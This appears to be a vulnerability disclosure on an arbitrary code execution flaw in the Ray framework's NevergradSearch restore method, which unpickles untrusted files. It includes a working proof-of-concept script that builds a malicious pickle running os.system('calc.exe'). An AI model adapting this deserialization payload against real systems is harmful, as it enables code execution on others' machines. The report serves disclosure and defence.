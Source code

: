 ## :writing_hand: Description

`Ray` is an open source framework that provides a simple, universal API for building distributed applications. It is packaged with RLlib, a scalable reinforcement learning library, and Tune, a scalable hyperparameter tuning library. This package is vulnerable to `Arbitrary Code Execution`.

## :bug: Vulnerability

`NevergradSearch` class uses `nevergrad` package to optimize hyperparameters. The `restore()` method is supposed to load objects saved with `save()` method. But lack of restriction allowes attacker constructed data to be unpickled.

## :male_detective: Proof of Concept

#### Installation
```bash
pip install ray
pip install nevergrad
```

#### Run exploit.py
```python
#!/usr/bin/env python3

import pickle
import os
import nevergrad
from ray.tune.suggest.nevergrad import NevergradSearch

class EvilPickle(object):
    def __reduce__(self):
        return (os.system, ('calc.exe', ))

payload = pickle.dumps(EvilPickle())
optimizer = nevergrad.optimization.Optimizer(1)
ngSearch = NevergradSearch(optimizer)

with open('payload', 'wb') as f:
    f.write(payload)

ngSearch.restore('payload')
```

